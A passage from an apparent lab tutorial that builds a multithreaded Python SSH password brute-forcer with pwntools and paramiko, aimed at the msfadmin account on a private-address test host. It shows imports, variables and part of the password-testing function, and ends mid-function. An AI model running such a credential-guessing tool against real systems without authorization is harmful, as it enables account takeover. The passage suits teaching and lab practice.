 The brute force was successful and correcttly identified the credentials for the msfadmin user. Additionally, the counter is correctly working and we can see the program working in real time.

While this does work, it is very slow and doesn't allow for user input. So let's work on improving the code for better useability. The first task will be to speed up the process. Then we can focus on adding user input to allow for specifying host, user, and wordlist.

## Improving the Code: Speeding Up the Process

Let's break down the updated program section by section.

```python
# imports
from pwn import *
import paramiko
from time import sleep
from concurrent.futures import ThreadPoolExecutor, as_completed
```

Starting with the inputs, the `pwn` and `paramiko` modules are still used to allow for SSH interaction that we need. The new imports are `from time import sleep` and `from concurrent.features ThreadPoolExecuter, as_completed`. These new modules will allow for a delay between attempts to avoid overwhelming SSH with connections, and allows for multithreading. This what the script uses to run the attempts concurrently.

```python
# variables
host = "192.168.7.94"
username = "msfadmin"
attempts = 0
found = False
max_threads = 5
retry_delay = 2
```

The `host`, `username`, and `attempts` variable will remain the same as the previous version. We add `found = False` to indicate when a valid password is found to stop attempting passwords, `max_threads` sets the number of threads to use, and `retry_delay` will add a 2 second delay to help with error checking.

```python
# test password function
def test_password(password):
    global attempts, found
    if found:
        return None
```

This is the function that will be used to test the passwords. The global argument is added for the `attempts` and `found` variables to ensure that the function can alter the variables declared at the start of the script. 

```python
    try:
        attempts += 1
        response = ssh(host=host, user=username, password=password, timeout=1)
        if response.connected():
            log.success(f"[>] Valid password: '{password}'!")
            response.close()
            found = True
            return password
        response.close()
```


[^1]: Source: [Python Documentation](https://docs.python.org/3/)
[^2]: Source: [pwntools](https://docs.pwntools.com/en/stable/)
[^3]: Source: [paramiko](https://docs.paramiko.org/en/stable/)